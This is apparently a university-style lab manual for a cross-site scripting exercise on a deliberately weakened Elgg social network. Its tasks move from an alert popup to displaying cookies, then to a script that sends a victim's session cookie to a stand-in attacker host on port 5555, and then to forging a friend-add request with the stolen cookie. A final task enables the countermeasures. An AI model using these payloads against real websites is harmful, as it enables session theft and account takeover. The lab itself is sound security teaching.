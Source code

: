 ![](media/b80e0eacca6dad9d42b5dc3545946591.png)

Cross-Site Scripting (XSS) Attack Lab
=================================

Overview
========

Cross-site scripting (XSS) is a type of vulnerability commonly found in web applications. This vulnerability makes it possible for attackers to inject
malicious code (e.g. JavaScript programs) into victim’s web browser. Using this malicious code, the attackers can steal the sensitive information, such as session cookies. The access control policies employed by browsers using session cookies, for example, can be bypassed by exploiting the XSS vulnerability. Vulnerabilities of this kind can potentially lead to large- scale attacks.

  

Lab Environment
===============

Once you have logged into your range account and accessed your Labtainer-VM, open a terminal window.

Navigate to the “labtainer-student” directory and start the lab using the command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ labtainer xsite
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-   Links to this lab manual will be displayed if you wish to view the prompt
    from within your VM
    
 **If a network error occurs during a lab, stop the lab using 'stoplab' and enter 'docker network prune' in the terminal. Restart the lab with 'labtainer $labname'.
    
Scenario
===============

To demonstrate what attackers can do by exploiting XSS vulnerabilities, you will work will a web application named Elgg. Elgg is a popular open-source web application for social networking. Although it has implemented a number of countermeasures to remedy XSS threas, these countermeasures are removed in Elgg in your installation. This makes the Elgg site vulnerable to XSS attacks. Users can post any arbitrary message, including JavaScript programs, to the user profiles. 

In this lab, you will exploit this vulnerability to launch an XSS attack on the modified Elgg, in a way that is similar to what Samy Kamkar did to MySpace in 2005 through the notorious Samy worm. The ultimate goal of this attack is to spread an XSS worm among the users, such that whoever views an infected user's profile will then be infected them selves, and whoever is infected will add you (i.e., the attacker) to his/her friend list.

Environment Configuration
===============

This lab includes three networked computers as shown in Figure
>   [1.](#_bookmark0) 

The "vuln-site" runs the Apache web server and the Elgg web applications. The "attacker" and "victim" computers each include the Firefox browser. Use the browser Web Developer / Network tool (upper right menu), to inspect the HTTP requests and responses.

![](media/e42177508edcc836bbe205d1065f8c37.jpg)

Figure 1: Cross site scripting lab topology

   **Starting the Apache Server.** The Apache web server will be running when the lab commences. If you need to restart the web server, use the following
   command:
```
$ sudo systemctl restart httpd
```

   **The Elgg Web Application.** There are several user accounts on the Elgg server [http://www.xsslabelgg.com](http://www.xsslabelgg.com/) and the credentials are given below.

| User    | UserName | Password    |
|---------|----------|-------------|
| Admin   | admin    | seedelgg    |
| Alice   | alice    | seedalice   |
| Boby    | boby     | seedboby    |
| Charlie | charlie  | seedcharlie |
| Samy    | samy     | seedsamy    |


 **Other software.** Some of the lab tasks require some basic familiarity with JavaScript. Wherever necessary, JavaScript examples are provided to help get you started. To complete task 3, you will need a utility to watch incoming requests on a particular TCP port. The home directory on the attacker computer contains an ”echoserver” directory with a program (written in C) that can be configured to listen on a particular port and display incoming messages.

Task 4 requires modifications to, compilation and execution of a Java program on the attacker computer. This program is in the HTTPSimpleForge directory on the attacker computer, and that computer includes a JDK for compiling java.

Lab Tasks
===============

Task 1: Posting a Malicious Message to Display an Alert Window
===============
The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the JavaScript program will be executed and an alert window will be displayed. 

- From the attackers terminal,  open a browser useing the command "firefox".
- Within this browser go to the site: http://www.xsslabelgg.com
- Log into the social networking site with Samy's credentials. (see table above)
- Navigate to your profile page *square icon with avatar shadow in upper-left corner
- Select "edit profile"

The "Brief Description" section will be rendered in other users' browsers when they visit your page.  This is where you (Samy) will place your scripts.

- Try using the following JavaScript snippet to display an alert window in the browser of anyone visiting your profile page:
```
<script>alert('XSS is bad');</script>
```
- After saving this, you will be returned to your profile page.  This shoud cause the browser to render this script and provide a pop-up alert. Try loggin out and testing this from an innocent victim's account.  

In this example, the JavaScript code is short enough to be typed into the short description field. If you want to run a longer JavaScript snippet, but you are limited by the number of characters you can type into the form, you can take a different approach. 

Store the JavaScript program in a standalone file, save it with the .js extension, and then refer to it using the 'src' attribute in the <script> tag. See the following example:

```
<script type="text/javascript"
src="http://www.example.com/myscripts.js">
</script>

```

In the above example, the page will fetch the JavaScript program from [http://www.example.com](http://www.example.com/), which can be any location that you have chosen to host this script at (attacker's web server for example).

Task 2: Posting a Malicious Message to Display Cookies
===============

The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the user’s cookies  will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task.

- Using the same process as before, try displaying the session cookie in the alert pop-up:

```
<script>alert(document.cookie);</script>
```

Task 3: Stealing Cookies from the Victim’s Machine
===============

In the previous task, the malicious JavaScript code displays the user’s cookie information, but only the user can see this cookies. This is not helpful to an attacker. In this task, the attacker will use JavaScript code to send the cookies to himself/herself, making them useful for session highjacking. To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookie information appended to the request.

We can do this by having the malicious JavaScript insert an *<*img*>* tag with its src attribute set to the attacker’s machine. When the JavaScript inserts the image (img) tag, the browser tries to load the image from the URL in the src field. This results in an HTTP GET request being sent to the attacker’s machine. 

- The JavaScript snippet provided below sends the cookie information to port 5555 of the attacker’s machine, where the attacker has a TCP server listening to the same port. 

- The TCP server program on the attacker's machine will print out what it recieved. The code for this application is in the echoserver directory on the attacker computer. 

**Note that in the output, the "=" character gets transformed to %3D (hex).
```
<script>document.write('<img src=http://attacker_IP_address:5555?c='+ escape(document.cookie) + ' >');</script>
```

Task 4: Session Hijacking using the Stolen Cookies
===============

After stealing the victim’s cookies, the attacker can do whatever the victim can do to the Elgg web server, including adding and deleting friends on behalf of the victim, deleting the victim’s post, etc. Essentially, the attacker has hijacked the victim’s session. In this task, we will launch this session hijacking attack, and write a program to add a friend on behalf of the victim. The attack should be launched from another virtual machine.

To add a friend for the victim, we should first find out how a legitimate user adds a friend in Elgg. More specifically, we need to figure out what are sent to the server when a user adds a friend. Firefox’s Web Developer / Network tool can help us; it can display the contents of any HTTP request message sent from the browser. From the contents, we can identify all the parameters in the request.

```
[http://www.xsslabelgg.com/action/friends/add?friend=40&](http://www.xsslabelgg.com/action/friends/add?friend=40)
elgg_ts=1402467511& elgg_token=80923e114f5d6c5606b7efaa389213b3

GET /action/friends/add?friend=40& elgg_ts=1402467511& elgg_token=80923e114f5d6c5606b7efaa389213b3

HTTP/1.1
Host: [www.xsslabelgg.com](http://www.xsslabelgg.com/)
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) Gecko/20100101
Firefox/23.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: <http://www.xsslabelgg.com/profile/elgguser2> Cookie:Elgg=7pgvml3vh04m9k99qj5r7ceho4
Connection: keep-alive

HTTP/1.1 302 Found
Date: Wed, 11 Jun 2014 06:19:28 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.11 Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0,pre-check=0
Pragma: no-cache
Location: <http://www.xsslabelgg.com/profile/elgguser2> Content-Length: 0
Keep-Alive: timeout=5, max=100 Connection: Keep-Alive
Content-Type: text/html

```

Once we have understood what the HTTP request for adding friends look like, we can write a Java program to send out the same HTTP request. The Elgg server cannot distinguish whether the request is sent out by the victim’s browser or by the attacker’s Java program. As long as we set all the parameters correctly, and the session cookie is attached, the server will accept and process the project-posting HTTP request. To simplify your task, the HTTPSimpleForge directory on the attacker computer contains a sample Java program that does the following:

```
1.  Open a connection to web server.

2.  Set the necessary HTTP header information.

3.  Send the request to web server.

4.  Get the response from web server.
```

   Note you are permitted to hand-code cookie values (obtained using the technique in Task 3) into this program. In practice, such a program would read the cookie value off of the network as was done in Task 3.

If you have trouble understanding the sample Java program, we suggest you to  read the following:

-   JDK 8 Documentation: <https://docs.oracle.com/javase/8/docs/api/>

-   Java Protocol Handler:  <http://java.sun.com/developer/onlineTraining/protocolhandlers/>

**Note 1:** Elgg uses two parameters elgg ts and elgg token as a countermeasure to defeat another related attack (Cross Site Request Forgery). Make sure that you set these parameters correctly for your attack to succeed.

   **Note 2:** Compile and run the java program using javac HTTPSimpleForge.java java HTTPSimpleForge

Task 5: Countermeasures
===============

   Elgg does have a built in countermeasures to defend against the XSS attack. We have deactivated and commented out the countermeasures to make the attack
   work. There is a custom built security plugin HTMLawed 1.8 on the Elgg web application which on activated, validates the user input and removes the
   tags from the input. This specific plugin is registered to the function filter tags in the elgg/ engine/lib/input.php file.

   To turn on the countermeasure, login to the application as admin, goto administration (on top menu) plugins (on the right panel), andSelect
   security and spam in the dropdown menu and click filter. You should find the HTMLawed 1.8 plugin below. Click on Activate to enable the countermeasure.

   In addition to the HTMLawed 1.8 security plugin in Elgg, there is another built-in PHP method called htmlspecialchars(), which is used to encode the
   special characters in the user input, such as encod- ing "\<" to &lt, "\>" to &gt, etc. Please go to the directory elgg/views/default/output and find
   the function call htmlspecialchars in text.php, tagcloud.php, tags.php, access.php, tag.php, friendlytime.php, url.php, dropdown.php, email.php and
   confirmlink.php files. Uncomment the corresponding "htmlspecialchars" function calls in each file.

Once you know how to turn on these countermeasures, please do the following:

1.  Activate only the HTMLawed 1.8 countermeasure but not htmlspecialchars; visit any of the victim profiles and describe your observations in your
    report.

2.  Turn on both countermeasures; visit any of the victim profiles and describe your observation in your report.

   **Note:** Please do not change any other code and make sure that there are no syntax errors.

Submission
==========
   After finishing the lab, go to the terminal on your Linux system that was
   used to start the lab and type:
```
>   stoplab xsite

```

References
==========

1.  Essential Javascript – A Javascript Tutorial. Available at the following
    URL:

>   <http://www.hunlock.com/blogs/Essential_Javascript_--_A_Javascript_Tutorial>.

2.  The Complete Javascript Strings Reference. Available at the following URL:

>   <http://www.hunlock.com/blogs/The_Complete_Javascript_Strings_Reference>.

3.  Technical explanation of the MySpace Worm. Available at the following URL:
    [http://namb.la/ popular/tech.html](http://namb.la/popular/tech.html).

4.  Elgg Documentation. Available at URL: <http://docs.elgg.org/wiki/Main_Page>.

